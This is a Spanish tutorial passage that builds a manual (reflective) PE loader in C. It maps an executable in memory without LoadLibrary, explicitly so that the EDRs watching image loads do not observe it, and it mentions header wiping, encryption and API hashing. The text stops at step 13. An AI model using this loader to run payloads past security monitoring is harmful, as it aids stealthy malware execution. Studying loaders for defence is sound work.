



Serie: Kagemusha
Mini-loader en 15 pasos: ejecuta un PE sin LoadLibrary (desde cero)
Mini-loader en 15 pasos: ejecuta un PE sin LoadLibrary (desde cero)
Cuando llamas a LoadLibrary y a GetProcAddress, Windows hace una cantidad enorme de trabajo por ti: lee el fichero, reserva memoria, copia secciones, arregla direcciones, carga dependencias, registra tablas de excepciones y llama al punto de entrada. Es una caja negra tan cómoda que casi nadie la abre.
Este artículo la abre. En 15 pasos vamos a construir un mini-loader en C que:
- Lee un
.exede disco. - Lo mapea en memoria como lo haría Windows.
- Aplica sus relocations.
- Resuelve sus imports.
- Registra sus tablas de excepciones.
- Ejecuta su punto de entrada.
Y después lo endurecemos: lo ciframos con AES-256-GCM, lo desciframos en memoria, le borramos las cabeceras y medimos qué queda visible. Al final tendrás un loader de unas 300 líneas y, sobre todo, un modelo mental de qué pasa dentro de Windows cada vez que un programa arranca.
Para quién es: sabes programar en C y entiendes punteros. No hace falta saber qué es un PE, un RVA, la IAT, el unwind ni ETW. Todo eso se explica aquí, con analogías, diagramas y código que puedes compilar.
Qué usamos: MSVC (x64), dumpbin, cdb, y un pe_hello.exe de prueba que devuelve 7. Nada de dependencias raras.
La versión de verdad: este tutorial sigue la lógica de KageMapPe, el loader de Kagemusha (src/core/pemap.c). El proyecto añade cosas que aquí solo mencionaremos (imports por hash, manual load, IAT spoofing, entryspoof, contenedor polimórfico, tests T69–T81). El objetivo de hoy es entender el esqueleto, no memorizar el músculo.
El mapa antes de andar

Un PE (Portable Executable) es el formato de los .exe y .dll de Windows. Por dentro es un fichero con instrucciones para un cargador: "copia esta parte aquí, arregla estas direcciones, importa estas funciones, empieza a ejecutar en esta otra". El loader de Windows (Ldr) sigue ese manual al pie de la letra.
Nosotros vamos a seguir el mismo manual, pero en pequeño.
Glosario mínimo (lo que se asume cero)
| Término | Qué es, en una frase |
|---|---|
| PE | El formato de ejecutable de Windows: cabeceras + secciones. |
| Sección | Un bloque del fichero con un propósito: código (.text), datos de solo lectura (.rdata), datos (.data). |
| RVA | Relative Virtual Address: una dirección relativa a la base donde se carga el PE. |
| VA | Dirección virtual absoluta: Base + RVA. |
| Offset de fichero | Posición en el .exe en disco. No coincide con el RVA. |
| Import | Función de otra DLL que el PE usa (CloseHandle, MessageBoxA…). |
| IAT | Import Address Table: la tabla donde el loader escribe las direcciones reales de esas funciones. |
| Relocation | Ajuste de una dirección absoluta cuando el PE no se carga en su base preferida. |
| Entry point | El RVA de la primera instrucción que ejecuta el PE. |
Unwind / .pdata | Información para deshacer la pila cuando hay excepciones (SEH, C++). |
| TLS | Thread Local Storage: datos y callbacks por hilo; algunos PEs los necesitan al arrancar. |
| Ldr | El cargador de Windows (ntdll!Ldr*). Es quien hace todo esto de verdad, y a quien mira un EDR. |
| EDR | Antivirus/EDR moderno: observa procesos, cargas de imagen, memoria y syscalls. |
La idea central del artículo cabe en una frase: en disco manda el offset; en memoria manda el RVA. Todo lo demás es traducir entre esos dos mundos y rellenar las tablas que el PE espera encontrar ya resueltas.

Paso 1 — El objetivo y la regla del juego
Qué buscamos: ejecutar un PE sin usar LoadLibrary sobre él.
Un matiz importante desde el principio: no vamos a reimplementar Windows. Nuestro loader usará VirtualAlloc, LoadLibraryA y GetProcAddress para las DLLs que el payload importa (kernel32, user32…). Lo que evitamos es que el payload pase por el cargador: lo leemos nosotros, lo mapeamos nosotros y saltamos a su entrada nosotros.
¿Por qué alguien querría hacer esto? Porque el cargador de Windows es exactamente lo que observan los EDR: una carga de imagen (LoadLibrary) genera eventos (ImageLoad, EID 7), y un PE que aparece en memoria sin esa carga es un artefacto distinto. Este tutorial no promete invisibilidad; promete entender el mecanismo. La medición de qué se ve viene al final (Paso 15) y es la parte más importante.
La regla de oro del proyecto que inspira esto: cada paso tiene que poder verificarse con un oráculo independiente (la API de Windows, dumpbin, cdb, pe-sieve). Si no puedes comprobar que el paso anterior funcionó, no avances.
Paso 2 — El taller y el paciente
Qué buscamos: un programa que lea el .exe entero en memoria y confirme que empieza por MZ.
Herramientas:
- MSVC x64 Native Tools (
cl). Compilamos sin CRT pesado si luego queremos minimalismo, pero para el tutorial vale el CRT normal. - dumpbin (viene con Visual Studio):
dumpbin /headers pe_hello.exe. - cdb (Debugging Tools for Windows): el depurador que usaremos como oráculo.
- PE-bear o PEview (opcional): para ver las secciones a ojo.
- Python (opcional): para escribir oráculos de cifrado (lo usaremos en el Paso 14).
El paciente: compila un pe_hello.exe que haga algo mínimo y termine con un código conocido:
// pe_hello.c
#include <windows.h>
int main(void)
{
MessageBoxA(NULL, "hola desde un PE mapeado", "mini-loader", MB_OK);
return 7; // ExitProcess(7) al salir del CRT
}Compílalo en x64 y guarda también su tamaño: lo usaremos para comparar.
El esqueleto del loader:
// mini_loader.c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
typedef struct {
BYTE *data;
SIZE_T size;
} FILEBUF;
static int ReadFileAll(const char *path, FILEBUF *out)
{
FILE *f = fopen(path, "rb"); // "rb": binario, sin traducir CRLF
long n;
if (f == NULL) return 0;
if (fseek(f, 0, SEEK_END) != 0) { fclose(f); return 0; }
n = ftell(f);
if (n <= 0) { fclose(f); return 0; }
rewind(f);
out->data = (BYTE *)malloc((size_t)n);
out->size = (SIZE_T)n;
if (out->data == NULL) { fclose(f); return 0; }
if (fread(out->data, 1, out->size, f) != out->size) {
free(out->data);
fclose(f);
return 0;
}
fclose(f);
return 1;
}
int main(int argc, char **argv)
{
FILEBUF f;
if (argc < 2 || !ReadFileAll(argv[1], &f)) return 1;
printf("leidos %zu bytes; primeros dos: %c%c\n", f.size, f.data[0], f.data[1]);
free(f.data);
return 0;
}Compruébalo:
> mini_loader.exe pe_hello.exe
leidos 20480 bytes; primeros dos: MZSi falla: el error clásico es abrir en modo texto ("r"), que en Windows traduce \r\n y te cambia el tamaño; o no comprobar ftell con ficheros grandes (usa _fseeki64/_ftelli64 si vas a jugar con PEs de más de 2 GB, cosa que no harás aquí).
Paso 3 — El DOS header: la puerta que sigue existiendo
Qué buscamos: localizar el header moderno (NT) a partir del antiguo (DOS).
Todo PE empieza con la firma MZ (0x5A4D), herencia de MS-DOS. El campo e_lfanew, en el offset 0x3C, dice a qué distancia está el header de verdad:
#include <winnt.h> // IMAGE_DOS_HEADER, IMAGE_NT_HEADERS64
PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)f.data;
if (dos->e_magic != IMAGE_DOS_SIGNATURE) { // 'MZ'
printf("no es un PE: falta MZ\n");
return 1;
}
printf("e_lfanew = 0x%lX\n", (unsigned long)dos->e_lfanew);Por qué existe e_lfanew: en los años 80, el header DOS ocupaba espacio y el PE se colocó detrás, en una posición variable. e_lfanew es el puntero que permite que un .exe siga siendo, a la vez, un programa DOS que imprime "This program cannot be run in DOS mode". Windows lee ese offset y salta.
Compruébalo: abre pe_hello.exe con PE-bear o ejecuta dumpbin /headers; el valor de e_lfanew (normalmente 0xE8, 0xF8 o 0x100) debe coincidir con el que imprime tu loader.
Si falla: leer e_lfanew como WORD en vez de DWORD/LONG; o no comprobar que e_lfanew cae dentro del fichero (un PE malformado puede apuntar fuera y hacerte un out-of-bounds de manual).
Paso 4 — El NT header: el manual de instrucciones
Qué buscamos: leer la cabecera que dice qué arquitectura es, cuántas secciones hay, dónde está la entrada y cuánto mide la imagen en memoria.
PIMAGE_NT_HEADERS64 nt = (PIMAGE_NT_HEADERS64)(f.data + dos->e_lfanew);
if (nt->Signature != IMAGE_NT_SIGNATURE) { // 'PE\0\0'
printf("firma PE incorrecta\n");
return 1;
}
if (nt->OptionalHeader.Magic != IMAGE_NT_OPTIONAL_HDR64_MAGIC) { // 0x20B
printf("no es PE32+ (x64)\n");
return 1;
}
printf("Machine = 0x%04X\n", nt->FileHeader.Machine);
printf("Secciones = %u\n", nt->FileHeader.NumberOfSections);
printf("ImageBase = 0x%llX\n", (unsigned long long)nt->OptionalHeader.ImageBase);
printf("SizeOfImage = 0x%lX\n", (unsigned long)nt->OptionalHeader.SizeOfImage);
printf("EntryPoint RVA= 0x%lX\n", (unsigned long)nt->OptionalHeader.AddressOfEntryPoint);Tres campos gobiernan todo lo que viene después:
ImageBase: dónde preferiría cargarse el PE (por ejemplo,0x140000000). Si el loader lo coloca en otro sitio, habrá que aplicar relocations (Paso 8).SizeOfImage: cuánto ocupa la imagen en memoria, ya alineada. Es el tamaño que hay que reservar, no el tamaño del fichero.AddressOfEntryPoint: un RVA, no un offset de fichero. La dirección a la que saltaremos esBase + este RVA.
Además, el OptionalHeader contiene 16 data directories (pares RVA+tamaño). Los que usaremos:
| Índice | Nombre | Para qué |
|---|---|---|
| 0 | Export | Lo que el PE exporta (DLLs) |
| 1 | Import | Las DLLs y funciones que necesita |
| 2 | Resource | Iconos, diálogos, versiones |
| 3 | Exception | .pdata: unwind/SEH |
| 4 | Security | Firma Authenticode (no es un RVA) |
| 5 | BaseReloc | Relocations |
| 9 | TLS | Callbacks de Thread Local Storage |
| 12 | IAT | Import Address Table (a veces separada) |
| 13 | DelayImport | Imports que se resuelven al usarse |
Compruébalo: dumpbin /headers pe_hello.exe imprime los mismos valores. Si tu SizeOfImage no coincide, estás leyendo el header de 32 bits (magic 0x10B) con la estructura de 64.
Si falla: no validar NumberOfSections (un PE hostil puede declarar 60 000 y desbordar tu bucle); o asumir que e_lfanew es fijo. No lo es.
Paso 5 — Las secciones: el mapa del contenido
Qué buscamos: saber qué trozos hay que copiar, desde dónde y a qué RVA.
Cada sección tiene un nombre (8 bytes), un RVA (dónde vive en memoria), un tamaño virtual (cuánto ocupa allí), un offset raw (dónde está en el fichero), un tamaño raw (cuánto ocupa en disco) y unos flags (ejecutable, escribible, etc.).
static void PrintSections(PIMAGE_NT_HEADERS64 nt)
{
PIMAGE_SECTION_HEADER s = IMAGE_FIRST_SECTION(nt);
for (WORD i = 0; i < nt->FileHeader.NumberOfSections; i++) {
char name[9] = {0};
memcpy(name, s[i].Name, 8);
printf("%-8s RVA=%08lX VSize=%08lX Raw=%08lX RawSize=%08lX Flags=%08lX\n",
name,
(unsigned long)s[i].VirtualAddress,
(unsigned long)s[i].Misc.VirtualSize,
(unsigned long)s[i].PointerToRawData,
(unsigned long)s[i].SizeOfRawData,
(unsigned long)s[i].Characteristics);
}
}Salida típica de un PE pequeño:
.text RVA=00001000 VSize=00000600 Raw=00000400 RawSize=00000600 Flags=60000020
.rdata RVA=00002000 VSize=00000400 Raw=00000A00 RawSize=00000400 Flags=40000040
.data RVA=00003000 VSize=00000200 Raw=00000E00 RawSize=00000200 Flags=C0000040Dos cosas que confunden al principio:
- RVA no es offset. El
.textestá en el fichero en0x400, pero en memoria enBase + 0x1000. La fórmula dentro de una sección esoffset = PointerToRawData + (rva - VirtualAddress). VirtualSizepuede ser mayor queSizeOfRawData. La diferencia es BSS: memoria que debe existir en cero y que no ocupa sitio en disco. Si copias solo lo raw, el resto queda basura (y si la memoria viene deVirtualAllocsinMEM_COMMITlimpio, peor).
Una función auxiliar que usarás mucho:
static DWORD RvaToOffset(PIMAGE_NT_HEADERS64 nt, DWORD rva)
{
PIMAGE_SECTION_HEADER s = IMAGE_FIRST_SECTION(nt);
for (WORD i = 0; i < nt->FileHeader.NumberOfSections; i++) {
DWORD size = s[i].Misc.VirtualSize;
if (size == 0) size = s[i].SizeOfRawData;
if (rva >= s[i].VirtualAddress && rva < s[i].VirtualAddress + size)
return s[i].PointerToRawData + (rva - s[i].VirtualAddress);
}
return rva; // las cabeceras se mapean tal cual
}Compruébalo: compara la tabla con dumpbin /headers. Si tu .text tiene Raw=0, mala señal: puedes estar leyendo otro PE (o un fichero que no es PE).
Si falla: usar PointerToRawData como si fuera un RVA (clásico); olvidar que VirtualSize puede ser 0 en algunos PEs y caer en un bucle inútil; no comprobar que PointerToRawData + SizeOfRawData <= tamaño del fichero.
Paso 6 — Reservar la imagen: el solar donde construir
Qué buscamos: un bloque de memoria del tamaño SizeOfImage, escribible de momento.
PVOID base = VirtualAlloc(NULL, nt->OptionalHeader.SizeOfImage,
MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
if (base == NULL) {
printf("VirtualAlloc fallo: %lu\n", GetLastError());
return 1;
}
printf("[map] base = %p (SizeOfImage = 0x%lX)\n",
base, (unsigned long)nt->OptionalHeader.SizeOfImage);Tres decisiones:
- Pedimos
SizeOfImage, no el tamaño del fichero. El PE espera un espacio contiguo donde todas las secciones caigan en sus RVAs. El tamaño de disco no sirve. - Pedimos RW (lectura/escritura) al principio. Vamos a escribir secciones y parchear la IAT; la protección final (RX para código, R para datos) se pone al terminar (Paso 12/15). Nunca RWX si puedes evitarlo: es la señal más clásica de inyección.
- No forzamos
ImageBase. Windows puede darnos otra dirección (ASLR); por eso existen las relocations. Si pidieras exactamenteImageBaseconMEM_RESERVEen una dirección ocupada, fallarías. En Kagemusha se reserva conNtAllocateVirtualMemoryindirecto, pero el concepto es idéntico.
Compruébalo: en cdb, !address <base> debe mostrar una región reservada del tamaño pedido y protección PAGE_READWRITE.
Si falla: reservar SizeOfHeaders + suma de secciones (te quedarás corto con los RVAs alineados); usar malloc (no es ejecutable y no tiene granularidad de página); olvidar MEM_COMMIT (la memoria reservada no es accesible hasta commitear).
Paso 7 — Copiar cabeceras y secciones: mudar los muebles
Qué buscamos: que Base contenga exactamente lo que el PE espera, con los huecos a cero.
// 1) Cabeceras completas (DOS + NT + tabla de secciones), tal cual.
memcpy(base, f.data, nt->OptionalHeader.SizeOfHeaders);
// 2) Secciones: cero el destino y copio lo que haya en disco.
PIMAGE_SECTION_HEADER sec = IMAGE_FIRST_SECTION(nt);
for (WORD i = 0; i < nt->FileHeader.NumberOfSections; i++) {
SIZE_T vsize = sec[i].Misc.VirtualSize;
SIZE_T raw = sec[i].SizeOfRawData;
if (vsize == 0) continue;
if ((SIZE_T)sec[i].VirtualAddress + vsize > nt->OptionalHeader.SizeOfImage) {
printf("seccion fuera de la imagen\n");
return 1;
}
memset((BYTE *)base + sec[i].VirtualAddress, 0, vsize); // BSS a cero
if (raw != 0 && (SIZE_T)sec[i].PointerToRawData + raw <= f.size) {
SIZE_T n = (raw < vsize) ? raw : vsize;
memcpy((BYTE *)base + sec[i].VirtualAddress,
f.data + sec[i].PointerToRawData, n);
}
}Por qué el orden importa:
- Primero las cabeceras, porque el PE se va a encontrar a sí mismo en
Base(muchos payloads leen su propioOptionalHeaderpara localizar la IAT, las relocations o el.pdata). - Cero antes de copiar la sección, para que el relleno (BSS) quede limpio. Si la memoria viniera de otro sitio (una sección reutilizada), los huecos tendrían basura.
- Copia
min(raw, vsize), norawa secas: siraw > vsize, escribirías fuera de la sección y pisarías la siguiente.
Compruébalo: compara 16 bytes de Base + RVA(.text) con el fichero en PointerToRawData; deben ser iguales. En cdb, db <base>+0x1000 muestra los mismos bytes que dumpbin /rawdata.
Si falla: copiar las secciones antes que las cabeceras (te las machaca); usar SizeOfRawData como tamaño de memset (no limpia el BSS); no validar que la sección cae dentro de SizeOfImage (un PE hostil te hace escribir en cualquier parte).
Paso 8 — Relocations: arreglar las direcciones absolutas
Qué buscamos: que el PE funcione aunque no se cargue en su ImageBase preferida.
Imagina que el compilador genera una instrucción que dice "carga la dirección 0x140001234". Esa dirección es absoluta: está calculada para la base preferida. Si cargas el PE en 0x00007FF6A0000000, esa instrucción sigue apuntando a 0x140001234, que ya no es tu imagen. Las relocations son una lista de sitios donde hay direcciones absolutas que hay que sumarles la diferencia entre la base real y la preferida.
ULONG64 delta = (ULONG64)(ULONG_PTR)base - nt->OptionalHeader.ImageBase;
if (delta != 0) {
IMAGE_DATA_DIRECTORY *dir = &nt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
if (dir->Size == 0) {
printf("PE sin relocations y base distinta: no se puede cargar aqui\n");
return 1;
}
BYTE *p = (BYTE *)base + dir->VirtualAddress;
DWORD left = dir->Size;
DWORD count = 0;
while (left >= sizeof(IMAGE_BASE_RELOCATION)) {
IMAGE_BASE_RELOCATION *blk = (IMAGE_BASE_RELOCATION *)p;
DWORD n;
if (blk->SizeOfBlock < sizeof(IMAGE_BASE_RELOCATION) ||
blk->SizeOfBlock > left) break;
n = (blk->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
WORD *ent = (WORD *)(blk + 1);
for (DWORD i = 0; i < n; i++) {
WORD type = (WORD)(ent[i] >> 12);
WORD off = (WORD)(ent[i] & 0x0FFF);
if (type == IMAGE_REL_BASED_DIR64) {
ULONG64 *slot = (ULONG64 *)((BYTE *)base + blk->VirtualAddress + off);
*slot += delta;
count++;
} else if (type != IMAGE_REL_BASED_ABSOLUTE) {
printf("reloc no soportada: %u\n", type);
return 1;
}
}
left -= blk->SizeOfBlock;
p += blk->SizeOfBlock;
}
printf("[map] relocations aplicadas: %lu (delta=0x%llX)\n",
(unsigned long)count, (unsigned long long)delta);
}Cómo leerlo:
- Cada bloque
IMAGE_BASE_RELOCATIONcubre una página (VirtualAddress) y trae una lista de entradas de 16 bits. - Los 4 bits altos son el tipo:
DIR64(10) es "aquí hay un puntero de 64 bits que hay que ajustar";ABSOLUTE(0) es relleno y se ignora. - Los 12 bits bajos son el offset dentro de la página.
deltapuede ser positivo o negativo; se suma igual (aritmética de 64 bits).
Ejemplo mental: el fichero contiene 0x140001234 en un slot; ImageBase = 0x140000000; la base real es 0x7FF6A0000000; delta = 0x7FF5_5FFF_EDCC; el slot pasa a 0x7FF6A0000000 + 0x1234. Ahora sí apunta a tu copia.
Compruébalo: después de aplicar relocs, Base + AddressOfEntryPoint debe ser una dirección de tu región y el número de relocations debe ser > 0 (si delta != 0). Con cdb, !dh <base> y u <base>+entry muestran el código ya parcheado.
Si falla: aplicar relocs antes de copiar las secciones (parcheas el fichero, no la imagen); olvidar el caso delta == 0 (no pasa nada, pero el contador miente); no soportar tipos distintos de DIR64 (en x64 casi todo es DIR64, pero un PE raro puede traer HIGHLOW de 32 bits); leer SizeOfBlock sin validarlo (blob hostil → bucle infinito).
Paso 9 — Imports (1/2): de nombres a direcciones
Qué buscamos: que cada llamada del PE a CloseHandle, VirtualAlloc, MessageBoxA… apunte a la función real de la DLL correcta.
Un PE no guarda "la dirección de CloseHandle" (cambia en cada arranque). Guarda el nombre y una tabla de huecos donde el loader debe escribir la dirección. Esa tabla es la IAT (Import Address Table). El proceso es:
- Recorrer los descriptores de import: uno por DLL (
KERNEL32.dll,USER32.dll…). - Para cada descriptor, cargar la DLL (
LoadLibraryA) o localizarla si ya está cargada. - Recorrer la lista de nombres (INT, Import Name Table).
- Para cada nombre, resolver su dirección (
GetProcAddress). - Escribirla en el hueco correspondiente de la IAT.

IMAGE_DATA_DIRECTORY *impdir = &nt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
if (impdir->Size != 0) {
PIMAGE_IMPORT_DESCRIPTOR imp =
(PIMAGE_IMPORT_DESCRIPTOR)((BYTE *)base + impdir->VirtualAddress);
for (; imp->Name != 0; imp++) {
const char *dll = (const char *)((BYTE *)base + imp->Name);
HMODULE mod = LoadLibraryA(dll);
if (mod == NULL) {
printf("no pude cargar %s\n", dll);
return 1;
}
// Si OriginalFirstThunk es 0 (bound imports), usamos FirstThunk como fuente.
ULONG64 *names = (ULONG64 *)((BYTE *)base +
(imp->OriginalFirstThunk ? imp->OriginalFirstThunk : imp->FirstThunk));
ULONG64 *iat = (ULONG64 *)((BYTE *)base + imp->FirstThunk);
for (; *names != 0; names++, iat++) {
FARPROC fn;
if (*names & 0x8000000000000000ULL) {
// Import por ordinal: los 16 bits bajos son el numero.
fn = GetProcAddress(mod, (LPCSTR)(*names & 0xFFFF));
} else {
// Import por nombre: RVA -> IMAGE_IMPORT_BY_NAME { WORD Hint; char Name[]; }
const char *name = (const char *)((BYTE *)base + (*names & 0x7FFFFFFF) + 2);
fn = GetProcAddress(mod, name);
}
if (fn == NULL) {
printf("import no resuelto en %s\n", dll);
return 1;
}
*iat = (ULONG64)(ULONG_PTR)fn;
}
}
}Los dos detalles que más se atascan:
+ 2: cada nombre va precedido de unWORDde hint (una pista de índice de export). El string empieza dos bytes después.OriginalFirstThunkvsFirstThunk: el primero es la lista de nombres original (en disco); el segundo es la IAT que se rellena. Si el PE viene con bound imports,OriginalFirstThunkpuede ser 0 y la lista de nombres vive en la IAT; el código lo contempla usandoFirstThunkcomo fuente, aunque en ese caso los valores ya son direcciones y no nombres (para un loader casero, lo práctico es rechazar bound imports y volver a resolver por nombre si el PE trae la INT).
Compruébalo: imprime cuántos imports resolviste y compara el total con dumpbin /imports pe_hello.exe. En cdb, dps <base>+<FirstThunk> debe mostrar direcciones dentro de kernel32/kernelbase/user32, no RVAs.
Si falla: usar FirstThunk como fuente de nombres sin comprobar el bit de ordinal; no validar imp->Name dentro de la imagen; olvidar que la IAT es escribible en este momento (la memoria está RW, bien); cargar la DLL con LoadLibraryW pasando un char* (se interpreta como UTF-16 y falla).
Paso 10 — Imports (2/2): API sets, forwarders y delay-load
Qué buscamos: que el loader no se rompa con los casos raros que sí aparecen en PEs reales.
Cuando tu loader sea un poco más ambicioso que un "hola mundo", se encontrará con cuatro situaciones:
API sets
Windows moderno usa nombres virtuales como api-ms-win-core-file-l1-1-0.dll. No son ficheros: son conjuntos de APIs que el sistema resuelve contra la DLL real (kernelbase.dll, kernel32.dll…). LoadLibraryA("api-ms-win-...") funciona y devuelve un módulo pseudo-válido; GetProcAddress sobre él también. La regla práctica: no intentes abrir el fichero en System32; deja que el sistema lo resuelva.
Forwarders
Una DLL puede exportar una función que en realidad vive en otra. Por ejemplo, kernel32!HeapAlloc puede reenviarse a ntdll!RtlAllocateHeap. GetProcAddress ya sigue la cadena por ti cuando el módulo es normal; si implementas tu propia resolución de exports (por hash, como Kagemusha), tienes que detectar el caso: la dirección de la función cae dentro del directorio de exports y IMAGE_EXPORT_DIRECTORY la marca como forwarder string (OTRA_DLL.Funcion). El loader real de Kagemusha lo resuelve en KageManResolveProc para los módulos que carga a mano.
Delay imports
DataDirectory[13] apunta a una tabla de imports que no se resuelven al cargar, sino la primera vez que se llaman (el compilador genera un thunk que llama al helper de delay-load). Si tu loader quiere soportarlos, tiene dos opciones: (a) resolverlos todos al mapear, recorriendo IMAGE_DELAYLOAD_DESCRIPTOR y parcheando sus IAT; o (b) dejar que el helper del propio payload lo haga (requiere que el helper esté importado y que la DLL exista). Para un tutorial, lo honesto es detectarlos y decirlo: si el PE tiene delay imports y no los resuelves, puede fallar en la primera llamada, lejos del sitio donde está el problema.
Bound imports
Algunos PEs guardan en la IAT direcciones "precalculadas" para una build concreta de Windows (bound imports). Esas direcciones son inválidas en tu máquina. Si OriginalFirstThunk == 0, no hay lista de nombres: tienes que reconstruirla o rechazar el PE con un mensaje claro. Nunca escribas un puntero NULL en la IAT y sigas: el crash ocurrirá dentro del payload, sin contexto.
Cómo lo hace el loader de verdad
Kagemusha añade dos capas que aquí no implementamos, pero conviene conocer:
- Resolver por hash en módulos ya cargados: antes de llamar a
LoadLibrary, busca la DLL en la lista de módulos del proceso (PEB) y resuelve el export por hash. Así evita una carga ruidosa (y el evento EID 7) cuando la DLL ya está presente. - Manual load de dependencias: para una lista blanca de DLLs, las mapea él mismo (sin
LdrLoadDll), resolviendo forwarders y API sets a mano. Es lo que en el proyecto se llamamanload; oculta las cargas al Ldr, pero deja los módulos en memoria privada (medido: 8–9 frames privados de 400).
La regla de oro: si un import no se resuelve, imprime DLL!funcion y aborta. Un loader que "sigue con la IAT a medias" produce crashes que parecen del payload y son tuyos.
Paso 11 — .pdata: que las excepciones no te maten
Qué buscamos: que el PE pueda lanzar y capturar excepciones (SEH de C, try/catch de C++, fallos de acceso) sin que el unwinder de Windows se pierda.
Cuando una función lanza una excepción, Windows necesita saber cómo deshacer la pila: qué registros restaurar, dónde está el catch, etc. Esa información vive en .pdata, un array de RUNTIME_FUNCTION:
typedef struct _RUNTIME_FUNCTION {
DWORD BeginAddress; // RVA
DWORD EndAddress; // RVA
DWORD UnwindInfoAddress; // RVA
} RUNTIME_FUNCTION;El loader de Windows registra ese array automáticamente para las DLLs que carga. Nuestra copia mapeada no está en su lista: para el sistema es memoria anónima. La solución es registrar la tabla a mano:
typedef BOOLEAN (WINAPI *PFN_RtlAddFunctionTable)(
PRUNTIME_FUNCTION FunctionTable, DWORD EntryCount, DWORD64 BaseAddress);
IMAGE_DATA_DIRECTORY *exc =
&nt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXCEPTION];
if (exc->Size != 0) {
HMODULE ntdll = GetModuleHandleA("ntdll.dll");
PFN_RtlAddFunctionTable add = (PFN_RtlAddFunctionTable)
GetProcAddress(ntdll, "RtlAddFunctionTable");
if (add != NULL) {
DWORD count = exc->Size / sizeof(RUNTIME_FUNCTION);
BOOLEAN ok = add((PRUNTIME_FUNCTION)((BYTE *)base + exc->VirtualAddress),
count, (DWORD64)(ULONG_PTR)base);
printf("[map] .pdata registrado: %s (%lu entradas)\n",
ok ? "ok" : "fallo", (unsigned long)count);
}
}Detalles que importan:
EntryCountes número de entradas, no bytes. Pasarexc->Sizedirectamente es un error clásico que corrompe la tabla.- La base es la dirección real de tu imagen; las entradas son RVAs relativas a ella.
- Si el PE no tiene
.pdata, puede seguir funcionando mientras no haya excepciones. Un payload con C++ o SEH sí lo necesita. - En modo "imagen" (mapear sobre la
.textde una DLL ya cargada) hay un problema extra: el.pdatadel host ya está registrado para esa dirección. Kagemusha lo resuelve rebasando el.pdatadel payload e insertándolo en la tabla del host (KageMapPeSplicePdata), con un oráculo que verifica queRtlLookupFunctionEntry(entry)devuelve la entrada correcta. Paraanon/mapped(nuestra base propia),RtlAddFunctionTablebasta.
Compruébalo:
// OJO: el tercer argumento NO puede ser NULL. En nuestra replica, pasarlo NULL
// compilaba bien pero el proceso moria con 0xC0000005. Usa una tabla de
// historial a cero (UNWIND_HISTORY_TABLE, 12 entradas; ~216 bytes).
BYTE hist[0x200] = {0};
DWORD64 imageBaseOut = 0;
PRUNTIME_FUNCTION rf = RtlLookupFunctionEntry(
(DWORD64)(ULONG_PTR)entry, &imageBaseOut, (PVOID)hist);
printf("unwind para entry: %s\n", rf ? "encontrado" : "NO");Esa errata la encontramos replicando el tutorial: la firma con NULL parece inofensiva y el compilador no protesta, pero RtlLookupFunctionEntry toca la tabla de historial. Si tu cabecera de user-mode no define UNWIND_HISTORY_TABLE, replica su estructura (contador + límites + 12 entradas) o pasa un buffer a cero del tamaño suficiente.
Si falla: registrar la tabla después de ejecutar (tarde); usar sizeof(RUNTIME_FUNCTION) mal; olvidar que un payload con excepciones y sin .pdata puede parecer que funciona hasta el primer throw.
Paso 12 — Ejecutar el entry point (sin matar al anfitrión)
Qué buscamos: saltar a Base + AddressOfEntryPoint y que el PE haga su trabajo sin llevarse por delante nuestro loader.
La firma del entry depende del tipo de PE:
- EXE:
int WINAPI Entry(void)(el CRT de MSVC envuelvemainy llama aExitProcessal final). - DLL:
BOOL WINAPI DllMain(HMODULE, DWORD, LPVOID), conDLL_PROCESS_ATTACHal cargar.
Para un EXE, lo más limpio es ejecutarlo en un hilo propio:
typedef int (WINAPI *PFN_ENTRY)(void);
static DWORD WINAPI EntryThread(LPVOID param)
{
PFN_ENTRY entry = (PFN_ENTRY)param;
return (DWORD)entry(); // el valor de retorno es el exit code
}
// ... despues de mapear, resolver imports y registrar .pdata:
PFN_ENTRY entry = (PFN_ENTRY)((BYTE *)base + nt->OptionalHeader.AddressOfEntryPoint);
HANDLE th = CreateThread(NULL, 0, EntryThread, (LPVOID)entry, 0, NULL);
if (th == NULL) { /* error */ }
WaitForSingleObject(th, INFINITE);
DWORD code = 0;
GetExitCodeThread(th, &code);
printf("[run] payload exit=%lu\n", (unsigned long)code);
CloseHandle(th);Por qué un hilo y no una llamada directa:
- El hilo nuevo recibe una pila limpia y alineada (x64 exige 16 bytes antes de un
call; el compilador yCreateThreadlo garantizan, tú a mano no siempre). - El PE puede asumir que corre en un hilo "normal" con su TEB.
- Si el payload llama a
ExitThread, muere el hilo y tú sigues vivo.
El problema de ExitProcess
El CRT de un EXE normal termina llamando a ExitProcess, que mata todo el proceso — incluido tu loader. Si quieres seguir midiendo (o ejecutar varios payloads), tienes que interceptarlo. La forma más simple: en el Paso 9, cuando el nombre del import sea ExitProcess, escribe en la IAT la dirección de tu propio stub en vez de la real:
static volatile LONG g_payload_exit = -1;
static VOID WINAPI ExitStub(UINT code)
{
g_payload_exit = (LONG)code;
ExitThread(code); // solo el hilo; el loader sigue vivo
}
// dentro del bucle de imports:
if (strcmp(name, "ExitProcess") == 0) {
fn = (FARPROC)ExitStub;
}En un loader de producción se usa NtTerminateThread (indirecto, como Kagemusha) para no depender del CRT, pero la idea es la misma. Limitación: si el payload resuelve ExitProcess dinámicamente (GetProcAddress), la interceptación de la IAT no lo cubre. Kagemusha lo resuelve con un hilo "hold" + NtContinue/entryspoof; aquí basta con saber que existe el agujero.
Compruébalo: ejecuta mini_loader.exe pe_hello.exe. Debe aparecer el MessageBox y luego:
[map] base = 00007FF6A1230000 (SizeOfImage = 0x5000)
[map] relocations aplicadas: 12 (delta=0x...)
[map] .pdata registrado: ok (4 entradas)
[run] payload exit=7Si falla: saltar a AddressOfEntryPoint sin sumar base (crash en una dirección baja); llamar al entry con firma de DLL; olvidar interceptar ExitProcess (el loader muere con exit 7 y no imprime nada); no poner la página de código en RX antes de ejecutar (dependiendo de cómo reserve, el VirtualAlloc RW inicial puede provocar un fallo de ejecución — pon las protecciones en el Paso 13/15).
Paso 13 — Depurar y verificar: el depurador como oráculo
Qué buscamos: poder decir, con evidencia, que el PE se mapeó y ejecutó de verdad (no que "parece que sí").
La secuencia de verificación que usamos en Kagemusha:
